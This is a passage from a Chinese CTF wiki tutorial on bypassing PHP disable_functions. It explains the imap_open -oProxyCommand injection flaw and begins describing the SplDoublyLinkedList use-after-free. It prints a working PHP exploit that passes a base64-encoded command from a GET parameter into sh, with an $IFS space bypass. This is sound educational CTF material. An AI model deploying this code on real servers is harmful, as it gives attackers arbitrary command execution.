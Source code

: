 安装 PHP 的 imap 扩展：`apt-get install php-imap`；

在 php.ini 中开启 `imap.enable_insecure_rsh `选项为 On；重启服务。

成功配置好环境后，在 phpinfo 中会看到如下信息：

![img](https://www.scuctf.com/ctfwiki/web/3.rce/pic/4.png)

### 基本原理 

PHP 的 imap_open 函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的 imap_open 函数在将邮箱名称传递给 rsh 或 ssh 命令之前不正确地过滤邮箱名称。如果启用了 rsh 和 ssh 功能并且 rsh 命令是 ssh 命令的符号链接，则攻击者可以通过向目标系统发送包含 - oProxyCommand 参数的恶意 IMAP 服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的 exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意 shell 命令。利用此漏洞的功能代码是 Metasploit Framework 的一部分。

exp 如下，先判断是否存在 imap_open() 函数，然后构造 exp 执行通过外部 GET 输入的命令然后保存结果到本地文件中，最后输出结果文件内容，注意 sleep(5) 是为了等 imap_open() 函数执行完、因为该函数执行时需要 DNS 轮询会存在延时：

```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
        die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or var_dump("\n\nError: ".imap_last_error());
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
```

当然，替换空格符的 \ t 也可以换成`$IFS$()`来 Bypass 掉。

![img](https://www.scuctf.com/ctfwiki/web/3.rce/pic/3.png)

##  利用 SplDoublyLinkedList

### 使用条件：

PHP 版本

> PHP v7.4.10及其之前版本
>
> PHP v8.0（Alpha）

###  原理

PHP的SplDoublyLinkedList双向链表库中存在一个用后释放漏洞，该漏洞将允许攻击者通过运行PHP代码来转义disable_functions限制函数。在该漏洞的帮助下，远程攻击者将能够实现PHP沙箱逃逸，并执行任意代码。更准确地来说，成功利用该漏洞后，攻击者将能够绕过PHP的某些限制，例如disable_functions和safe_mode等等
